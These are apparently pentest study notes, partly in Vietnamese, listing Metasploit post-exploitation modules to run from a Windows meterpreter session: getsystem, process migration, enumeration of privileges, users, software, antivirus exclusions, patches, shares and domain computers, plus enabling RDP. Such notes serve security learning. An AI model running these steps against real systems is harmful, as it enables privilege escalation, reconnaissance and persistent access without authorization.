# Windows Post Exploitation Modules

Sau khi có phiên meterpreter

`getsystem` -> để leo quyền với 1 vài trường hợp đơn giản

Architecture migrate

`search migrate`

`use post/windows/manage/migrate`

`set SESSION 1`

`run`

Migration e.g. from x86 service

`use post/windows/manage/archmigrate`

`set SESSION 1`

`run`



Enumerate current user privileges

`search win_privs`

`use post/windows/gather/win_privs`

`set SESSION 1`

`run`



Check current and recently logged on users

`search enum_logged_on`

`use post/windows/gather/enum_logged_on_users`

`set SESSION 1`

`run`



Determine if the system is a VM

`search checkvm`

`use post/windows/gather/checkvm`

`set SESSION 1`

`run`



Enumerate installed programs

`search enum_applications`

`use post/windows/gather/enum_applications`

`set SESSION 1`

`run`



`loot`

Thư mục `/root/.msf4/loot/` sẽ lưu lại các post exploit chúng ta vừa thực hiện.



Check Antivirus

`search type:post platform:windows enum_av`

`use post/windows/gather/enum_av_excluded`

`set SESSION 1`

`run`



Enumerate domain computers

`search enum_computers`

`use post/windows/gather/enum_computers`

`set SESSION 1`

`run`



Enumerate installed patches

`search enum_patches`

`use post/windows/gather/enum_patches`

`set SESSION 1`

`run`



Enumerate any shares

`search enum_shares`

`use post/windows/gather/enum_shares`

`set SESSION 1`

`run`



Check if RDP is enabled

`search rdp platform:windows`

`use post/windows/manage/enable_rdp`

`set SESSION 1`

`run`

